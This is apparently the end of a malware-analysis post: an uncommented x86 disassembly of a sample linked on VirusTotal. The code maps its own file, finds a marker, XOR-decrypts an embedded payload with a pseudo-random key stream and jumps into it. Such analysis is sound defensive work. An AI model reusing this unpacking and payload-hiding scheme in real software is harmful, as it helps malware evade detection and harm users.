mov dword[esp+0x10], edi
test edi, edi
je 0x403026
xor eax, eax
push eax
push eax
push eax
push 6
push dword[edi+0x1c]
call ebx
mov ebx, eax
mov dword[esp+0x4c], ebx
test ebx, ebx
je 0x40301b
mov ecx, dword[ebx+0x48]
cmp ecx, 0x3fc
jae 0x403006
mov eax, dword[ebx+0x4c]
add ecx, ecx
push ecx
add eax, ebx
push eax
lea eax, [esp+0xa8]
push eax
call dword[0x406020]
mov eax, dword[ebx+0x48]
xor ecx, ecx
mov word[esp+eax*2+0xac], cx
mov eax, dword[edi+0x40]
xor esi, esi
add esp, 0xc
xor ebx, ebx
mov dword[esp+0x38], esi
test eax, eax
je 0x402b30
cmp dword[edi+0x44], ecx
je 0x402b30
lea eax, [eax*2+2]
push eax
push esi
call dword[sym.imp.KERNEL32.dll_GetProcessHeap]
push eax
call dword[sym.imp.KERNEL32.dll_HeapAlloc]
mov ebx, eax
test ebx, ebx
jne 0x402b3a
push ecx
push 0x401404
jmp 0x40319e
cmp byte[esp+0x17], cl
jne 0x402ffb
mov eax, dword[edi+0x50]
test eax, eax
je 0x402b72
cmp dword[edi+0x54], esi
je 0x402b72
lea eax, [eax*2+2]
push eax
push 0
call dword[sym.imp.KERNEL32.dll_GetProcessHeap]
push eax
call dword[sym.imp.KERNEL32.dll_HeapAlloc]
mov esi, eax
mov dword[esp+0x38], esi
test esi, esi
jne 0x402b7d
push ecx
push 0x40142c
jmp 0x40319e
cmp byte[esp+0x2b], 0
jne 0x402ff0
mov eax, dword
mov eax, dword[eax+0x30]
mov edi, dword[eax+0x10]
test ebx, ebx
je 0x402bbf
mov ecx, dword[esp+0x10]
mov eax, dword[ecx+0x40]
add eax, eax
push eax
mov eax, dword[ecx+0x44]
add eax, ecx
push eax
push ebx
call dword[0x406020]
mov eax, dword[esp+0x1c]
add esp, 0xc
mov eax, dword[eax+0x40]
xor ecx, ecx
mov word[ebx+eax*2], cx
push ebx
lea eax, [edi+0x38]
push eax
call dword[0x406030]
test esi, esi
je 0x402c4f
mov ecx, dword[esp+0x10]
mov eax, dword[ecx+0x50]
add eax, eax
push eax
mov eax, dword[ecx+0x54]
add eax, ecx
push eax
push esi
call dword[0x406020]
mov eax, dword[esp+0x1c]
add esp, 0xc
mov eax, dword[eax+0x50]
push esi
xor ecx, ecx
add edi, 0x40
push edi
mov word[esi+eax*2], cx
call dword[0x406030]
push esi
call dword[sym.imp.KERNEL32.dll_GetCommandLineW]
push eax
call dword[section..data]
pop ecx
pop ecx
call dword[sym.imp.KERNEL32.dll_GetCommandLineA]
mov esi, eax
test esi, esi
je 0x402c4b
push 8
lea eax, [esp+0x5c]
push 0
push eax
call dword[0x40601c]
add esp, 0xc
lea eax, [esp+0x58]
push 1
push edi
push eax
call dword[0x40602c]
test eax, eax
js 0x402c48
push dword[esp+0x5c]
push esi
call dword[0x406010]
pop ecx
pop ecx
jmp 0x402c4b
mov byte[esi], 0
mov esi, dword[esp+0x38]
call fcn.004034cb
test al, al
je 0x402cf1
call fcn.0040348a
mov ecx, dword[eax+0x20]
xor edx, edx
cmp dword[eax+0x24], edx
ja 0x402cf1
jb 0x402c79
cmp ecx, 0x7fff0000
jae 0x402cf1
test ebx, ebx
je 0x402ca1
mov dword[ecx+0x68], ebx
mov ebx, dword[esp+0x10]
mov dword[ecx+0x6c], edx
mov ax, word[ebx+0x40]
add ax, ax
mov word[ecx+0x60], ax
mov ax, word[ebx+0x40]
inc ax
add ax, ax
mov word[ecx+0x62], ax
jmp 0x402ca5
mov ebx, dword[esp+0x10]
test esi, esi
je 0x402cf5
mov dword[ecx+0x78], esi
mov dword[ecx+0x7c], edx
mov ax, word[ebx+0x50]
add ax, ax
mov word[ecx+0x70], ax
mov ax, word[ebx+0x50]
inc ax
add ax, ax
mov word[ecx+0x72], ax
jmp 0x402cf5
mov esi, 0x3fc
push esi
lea eax, [esp+0xa4]
push eax
push ecx
call dword[sym.imp.KERNEL32.dll_GetModuleFileNameW]
test eax, eax
je 0x402ce6
cmp eax, esi
jne 0x402cf5
push ecx
push 0x401454
jmp 0x403147
mov ebx, dword[esp+0x10]
push 0x5c
pop eax
cmp word[esp+0xa0], ax
jne 0x402d15
cmp word[esp+0xa2], ax
jne 0x402d15
lea esi, [esp+0xa0]
jmp 0x402d34
push 8
lea eax, [esp+0x9c]
push 0x401678
push eax
call dword[0x406020]
add esp, 0xc
lea esi, [esp+0x98]
call fcn.00403526
mov ecx, eax
sub ecx, dword[0x406040]
push 3
xor edx, edx
mov eax, ecx
pop edi
div edi
test ecx, 0xffff8000
je 0x402d6c
test edx, edx
je 0x403128
mov esi, dword[esp+0x1c]
cmp edx, 1
jne 0x402946
jmp 0x4029c8
push ecx
push esi
call fcn.0040249a
push ecx
push 0x401468
call fcn.0040249a
xor eax, eax
push eax
push eax
push edi
push eax
push 7
push 0x80000000
push esi
call dword[sym.imp.KERNEL32.dll_CreateFileW]
mov edi, eax
mov dword[esp+0x34], edi
cmp edi, 0xffffffff
je 0x4030d2
call fcn.00403547
mov esi, dword[esp+0x1c]
test eax, eax
jne 0x4029c5
xor eax, eax
push eax
push eax
push eax
push 2
push eax
push edi
call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]
mov dword[esp+0x2c], eax
test eax, eax
je 0x4030ca
push 0x1000
push 0
push 0
push 4
push eax
call dword[sym.imp.KERNEL32.dll_MapViewOfFile]
mov edi, eax
test edi, edi
je 0x4030c2
mov ecx, edi
call fcn.00402537
push edi
mov esi, eax
call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]
lea eax, [esp+0x40]
push eax
push dword[esp+0x38]
call dword[sym.imp.KERNEL32.dll_GetFileSizeEx]
test eax, eax
je 0x4030b7
xor eax, eax
push eax
mov ecx, esi
add ecx, 0x1000
pop edx
adc eax, edx
cmp dword[esp+0x44], eax
jl 0x403089
jg 0x402e34
cmp dword[esp+0x40], ecx
jbe 0x403089
lea eax, [esi+0x1000]
push eax
push edx
push edx
push 4
push dword[esp+0x3c]
call dword[sym.imp.KERNEL32.dll_MapViewOfFile]
mov esi, eax
mov dword[esp+0x1c], esi
test esi, esi
je 0x40307e
call fcn.00403526
mov ecx, eax
sub ecx, dword[0x406040]
push 3
xor edx, edx
mov eax, ecx
pop edi
div edi
test ecx, 0xffff8000
je 0x402e8b
test edx, edx
je 0x403128
cmp edx, 1
je 0x4029c8
jmp 0x402946
mov ecx, esi
call fcn.00402537
mov esi, eax
add esi, dword[esp+0x1c]
push 4
pop ebx
mov ecx, dword[esi]
add esi, ebx
cmp ecx, 0x6d7678
jne 0x403073
mov ecx, dword[esi]
add esi, ebx
cmp ecx, edi
jne 0x403068
mov edx, dword[esi]
mov edi, edx
imul edi, edi, 0x8088405
add esi, ebx
inc edi
mov ecx, dword[esi]
mov eax, edi
xor eax, edx
add esi, ebx
cmp eax, ecx
jne 0x40305d
mov ecx, dword[esi]
mov edx, edi
imul edx, edx, 0x8088405
inc edx
mov eax, edx
xor eax, edi
add esi, ebx
cmp eax, ecx
jne 0x403052
mov eax, dword[esi]
imul edx, edx, 0x8088405
inc edx
xor eax, edx
imul edx, edx, 0x8088405
add esi, ebx
inc edx
mov ecx, dword[esi]
xor ecx, edx
imul edx, edx, 0x2b9ad7e7
mov dword[esp+0x24], 0x8088406
sub dword[esp+0x24], edx
mov edx, dword[esp+0x24]
xor edx, dword[esi+8]
mov dword[esp+0x18], eax
mov eax, dword[esp+0x1c]
lea ebx, [esi+8]
sub ebx, eax
add ebx, 4
add edx, ebx
add edx, ecx
push eax
mov dword[esp+0x34], ecx
mov dword[esp+0x28], edx
call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]
push dword[esp+0x2c]
call dword[sym.imp.KERNEL32.dll_CloseHandle]
xor eax, eax
push eax
push eax
push eax
push 8
push eax
push dword[esp+0x48]
call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]
mov ecx, eax
mov dword[esp+0x2c], ecx
test ecx, ecx
je 0x403047
mov eax, dword[esp+0x30]
add eax, ebx
push eax
push 0
push 0
push 1
push ecx
call dword[sym.imp.KERNEL32.dll_MapViewOfFile]
mov esi, eax
mov dword[esp+0x1c], esi
test esi, esi
je 0x40303c
lea eax, [ebx+esi]
mov dword[esp+0x50], eax
mov ecx, eax
mov eax, dword[esp+0x30]
test eax, eax
je 0x402fb7
mov edx, eax
imul edi, edi, 0x343fd
add edi, 0x269ec3
mov eax, edi
shr eax, 0x10
xor byte[ecx], al
inc ecx
dec edx
jne 0x402fa0
xor eax, eax
push ecx
push ecx
lea ecx, [esp+0x68]
mov dword[esp+0x88], eax
mov dword[esp+0x8c], eax
mov dword[esp+0x90], eax
mov dword[esp+0x6c], eax
mov dword[esp+0x68], eax
call fcn.004036e0
pop ecx
pop ecx
test eax, eax
jne 0x403031
mov ebx, dword[esp+0x10]
jmp 0x402946
push ecx
push 0x401440
jmp 0x40319e
push ecx
push 0x401418
jmp 0x40319e
push ecx
push 0x4013f0
call fcn.0040249a
push 0xa
push dword[ebx+0x48]
jmp 0x403155
push ecx
push 0x4013dc
jmp 0x403147
push ecx
push 0x4013c8
jmp 0x403147
push ecx
push 0x401588
jmp 0x40319e
push ecx
push 0x401574
jmp 0x403147
push ecx
push 0x401560
jmp 0x403147
push ecx
push 0x401550
jmp 0x40319e
push ecx
push 0x401540
jmp 0x40319e
push ecx
push 0x401530
jmp 0x40319e
push ecx
push 0x401520
jmp 0x40319e
push ecx
push 0x40150c
jmp 0x403147
push ecx
push 0x4014f8
call fcn.0040249a
push 0xa
push dword[esp+0x44]
mov ecx, 0x406048
call fcn.00402433
push ecx
push 0x401468
call fcn.0040249a
push 0xa
push esi
jmp 0x403155
push ecx
push 0x4014e4
jmp 0x403147
push ecx
push 0x4014d0
jmp 0x403147
push ecx
push 0x4014bc
jmp 0x403147
push ecx
push 0x401470
jmp 0x403147
mov ecx, edi
call fcn.00402617
push 0x8000
push dword[esp+0x1c]
mov esi, eax
push edi
call dword[sym.imp.KERNEL32.dll_VirtualFree]
test esi, esi
je 0x4031a3
mov ecx, esi
call fcn.004034ee
mov ecx, esi
call fcn.0040258e
mov dword[esp+0x20], eax
test eax, eax
jne 0x40311c
push ecx
push 0x4015b0
jmp 0x40319e
push 0
call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]
mov dword[esp+0x54], eax
mov edi, dword[esp+0x34]
xor eax, eax
push eax
push eax
push eax
push 2
push eax
push edi
call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]
mov esi, eax
test esi, esi
jne 0x403161
push ecx
push 0x4015c0
call fcn.0040249a
push 0xa
call dword[sym.imp.KERNEL32.dll_GetLastError]
push eax
mov ecx, 0x406048
call fcn.00402433
jmp 0x4031a3
push edi
call dword[sym.imp.KERNEL32.dll_CloseHandle]
mov eax, dword[esp+0x4c]
push eax
mov eax, dword[esp+0x28]
push ebx
add eax, 0xffff
and eax, 0xffff0000
push eax
push dword[esp+0x50]
push dword[esp+0x50]
push esi
push dword[esp+0x6c]
call dword[esp+0x3c]
add esp, 0x1c
pop edi
pop esi
pop ebx
mov esp, ebp
pop ebp
ret
push ecx
push 0x401598
call fcn.0040249a
push 0x4015d4
push 0x4015e0
call dword[sym.imp.KERNEL32.dll_LoadLibraryW]
push eax
call dword[sym.imp.KERNEL32.dll_GetProcAddress]
push 0x10
push 0x4015f8
push 0x406048
push 0
call eax
push 0xffffffffffffffff
call dword[sym.imp.KERNEL32.dll_ExitProcess]

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/3a783d6a0e3505903843983e413a529e